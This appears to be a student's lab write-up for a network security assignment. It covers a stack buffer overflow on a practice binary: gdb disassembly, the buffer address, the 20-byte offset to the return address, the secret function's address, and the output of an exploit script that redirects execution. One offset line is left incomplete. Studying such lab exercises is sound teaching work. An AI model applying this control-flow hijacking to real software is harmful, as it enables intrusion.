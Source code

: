 # Buffer Starting Address
The buffer address is calculated and stored into %eax at:

0x080497f5 <+21>: lea -0x10(%ebp), %eax

From which, we find the buffer address as: 0xffffd198

# Buffer Offset from Frame Pointer
The buffer is located at: ebp - 0x10
The return address is located at: ebp +
Therefore, the total offset from the start of the buffer to the return address is: (ebp + 4) - (ebp - 0x10) = 0x14 = 20 bytes


Buffer offset from frame pointer = 16 bytes
Buffer offset from return address = 20 bytes

# Return Address of the Secret Function

Secret function return address is: 0x080497b5

found by the following command and output:

(gdb) p &secret
$1 = (void (*)()) 0x080497b5 <secret>

#First assembly instruction of secret function

0x080497b5 <+0>:     push   %ebp

# Output

(.venv) ubuntu@netsec-vm:~/PA3/release/practice$ python3 exp-practice.py | ./vuln
> AAAAAAAAAAAAAAAAaaaa��
>> you have found the secret function
Segmentation fault (core dumped)


screenshot also included in the submission folder
